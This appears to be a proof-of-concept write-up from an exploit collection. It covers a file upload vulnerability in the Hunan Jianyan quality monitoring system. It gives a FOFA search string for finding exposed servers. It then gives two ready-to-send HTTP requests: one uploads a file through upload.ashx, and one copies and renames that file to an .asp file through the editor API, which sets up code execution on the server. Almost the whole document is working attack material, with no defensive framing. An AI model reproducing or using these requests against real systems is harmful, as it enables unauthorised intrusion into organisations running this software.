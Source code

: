 ## 湖南建研质量监测系统upload.ashx文件上传漏洞

## fofa
```
body="/Content/Theme/Standard/webSite/login.css"
```

## poc
```
POST /Applications/Attachment/upload.ashx HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=------------------------OqjxWFlqvSLEefGwXuWeIHbrMYnLtTbqoIUbHXbR
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 335

--------------------------OqjxWFlqvSLEefGwXuWeIHbrMYnLtTbqoIUbHXbR
Content-Disposition: form-data; name="file";filename="123.txt"

123
--------------------------OqjxWFlqvSLEefGwXuWeIHbrMYnLtTbqoIUbHXbR
Content-Disposition: form-data; name="_upload_guid"
123
--------------------------OqjxWFlqvSLEefGwXuWeIHbrMYnLtTbqoIUbHXbR--
```

![f846bf63220b1ecd0a62c03c66fb0924](https://github.com/wy876/POC/assets/139549762/e277303f-001d-4fa3-9f2a-a8aac3d65aba)

### 将文件复制改名

```
POST /Standard/Editor/API/File.cshtml?act=geturl HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
X-Forwarded-Proto: 
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 63

filename=/tempData/12345667.asp&filetplpath=/tempData/123.txt
```

![271f4e479da4984ce1d40aebe30dfcc2](https://github.com/wy876/POC/assets/139549762/65de9612-4beb-47ef-80e0-c8a34aacf017)
